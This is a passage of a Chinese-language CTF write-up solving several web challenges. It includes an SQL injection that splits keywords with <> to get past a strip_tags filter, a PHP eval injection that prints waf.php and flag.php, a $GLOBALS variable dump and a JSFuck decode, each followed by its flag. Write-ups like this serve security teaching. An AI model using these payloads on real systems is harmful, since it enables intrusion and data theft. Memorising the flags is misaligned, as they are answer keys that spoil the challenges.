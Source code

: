 		strip_tags() 函数剥去字符串中的 HTML、XML 以及 PHP 的标签。
		注释：该函数始终会剥离 HTML 注释。这点无法通过 allow 参数改变。
		注释：该函数是二进制安全的。
		
		strip_tags()删除字符串中的<>标签及注释，因此可在注入过滤的关键词中加入<>，<!---->，<?php ?>绕过过滤
		payload:http://103.238.227.13:10087/?id=1 un<>ion se<>lect * f<>rom `key` where id=1%23
		KEY{c3d3c17b4ca7f791f85e#$1cc72af274af4adef}

11. 你必须让他停下 60
	>地址：http://120.24.86.145:8002/web12/  
	>作者：@berTrAM

	解答：

		function myrefresh(){
			window.location.reload();
			}
		setTimeout('myrefresh()',500)
		
		阻止页面自动刷新，开burp抓包发包
		flag{dummy_game_1s_s0_popular}
		
12. 本地包含 60
	>地址：http://120.24.86.145:8003/

	解答：
		
		var_dump — 打印变量的相关信息，此函数显示关于一个或多个表达式的结构信息，包括表达式的类型与值。数组将递归展开值，通过缩进显示其结构。 
		void var_dump ( mixed $expression [, mixed $... ] )

		eval执行漏洞

		http://120.24.86.145:8003/?hello=1);show_source(%27waf.php%27);var_dump(3
		http://120.24.86.145:8003/?hello=1);show_source(%27flag.php%27);var_dump(3

		flag{bug-ctf-gg-99}

13. 变量1 60
	>http://120.24.86.145:8004/index1.php

	解答：

		题目提示flag在变量里面，我们就要把所有的变量值都打印出来。看到题目使用了preg_match,使用正则匹配，变量名只能是字母或者数字的组合，最后输出$$args，把$args的内容当做变量来处理，所以构造payload
		http://120.24.86.145:8004/index1.php?args=GLOBALS 得到flag
		var_dump($GLOBALS)打印所有变量
		flag{92853051ab894a64f7865cf3c2128b34}

14. web5 60
	>JSPFUCK??????答案格式CTF{**}  
	>http://120.24.86.145:8002/web5/   
	>字母大写

	解答：
		js-jother
		ctf{whatfk}

		str="ctf{whatfk}";
		str1=str. toUpperCase()
		CTF{WHATFK}
